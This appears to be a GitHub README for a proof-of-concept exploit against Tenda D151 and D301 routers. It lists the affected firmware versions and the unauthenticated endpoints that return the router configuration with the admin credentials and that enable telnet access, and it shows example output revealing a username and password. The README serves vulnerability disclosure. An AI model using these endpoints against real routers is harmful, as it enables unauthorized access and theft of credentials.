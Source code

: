 # Tenda D151 D301 exploit (Proof of Concept)


__Exploit Title__: Tenda D151 & D301 - Unauthenticated configuration download (login included)


- Exploit Author: BenChaliah

- Vendor Homepage: https://www.tendacn.com

- Software Link: https://www.tendacn.com/us/download/detail-3331.html

- Versions:    
  - D301 1.2.11.2_EN
  - D301 V2.0 50.22.1.8_EN
  - D151 V2.0 50.21.1.5_EN

- Exploit-DB : https://www.exploit-db.com/exploits/49782

#### Description

This exploits allows for the download of the current router config including the admin login, just by requesting `{IP}/goform/getimage`, you can also activate telnet service by requesting `/goform/telnet` (the service is already on by default, but this will execute an `iptable` command allowing access).

⚠️ Telnet activation issue exists in many other tenda devices too.

The configuration exists in the last part of the downloaded firmware image.



__Usage__ (Python 2.7):

```shell
$ python exploit.py 192.168.1.1
        _  _
  ___ (~ )( ~)
 /   \_\ \/ /   
|   D_ ]\ \/  -- By BenCh@li@h
|   D _]/\ \  -- github.com/BenChaliah
 \___/ / /\ \
      (_ )( _)
          

[!] Downloading config
	username: admin
	password: testpass
```
